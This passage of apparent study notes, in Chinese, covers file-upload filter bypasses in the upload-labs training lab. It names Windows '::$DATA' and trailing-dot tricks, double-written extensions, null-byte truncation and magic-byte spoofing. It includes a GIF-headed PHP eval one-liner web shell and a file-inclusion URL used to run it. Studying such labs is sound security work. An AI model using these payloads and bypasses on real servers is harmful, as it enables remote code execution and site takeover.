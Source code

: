 




* Win下xx.jpg空格和xx.jpg.两种文件是不被允许存在的，要是这样命名文件，windows系统会默认删除空格或者.

* ::$DATA:
  在window的时候如果文件名+"::$DATA"会把::$DATA之后的数据当成文件流处理,不会检测后缀名，且保持::$DATA之前的文件名，他的目的就是不检查后缀名
  例如:    "phpinfo.php::$DATA"    Windows会自动去掉末尾的::$DATA变成"phpinfo.php"

* 删除文件名末尾的点，再首尾去空，可构造：
info.php. .(点+空格+点)

* 把黑名单的后缀替换为空：考虑双写绕过

```
$file_name = str_ireplace($deny_ext,"", $file_name);
```
# 00截断
存储路径可控
* 服务器会把我们上传的文件进行重命名，使用00截断后面拼接的内容

# **二次渲染及文件头检测**

* 通常与文件包含漏洞一起出现

```
JPEG (jpg)，文件头：FF D8 FF E1
PNG (png)，文件头：89 50 4E 47
GIF (gif)，文件头：47 49 46 38
```

* 上传图片马：
 image.png   GIF89a是gif文件头

```
GIF89a
<?php @eval($_POST['a']); ?>
```

![image-20240512180540845](https://starofeden-blog.oss-cn-chengdu.aliyuncs.com/img/202405121805891.png)

利用文件包含查看是否上传成功。

```
http://192.168.1.232/upload-labs-master/include.php?file=upload/3020240512175929.png
```

![image-20240512180019592](https://starofeden-blog.oss-cn-chengdu.aliyuncs.com/img/202405121800650.png)

需要打开allow_url_fopen

![image-20240512174050677](https://starofeden-blog.oss-cn-chengdu.aliyuncs.com/img/202405121740741.png)

*突破gatimagesize与突破exif_imagetype方法同上*

## imagecreatefromjpeg()
直接上传的话会打散图片去除末尾的一句话木马，寻找没有打算的地方去插入木马
* 制作一个gif图片马
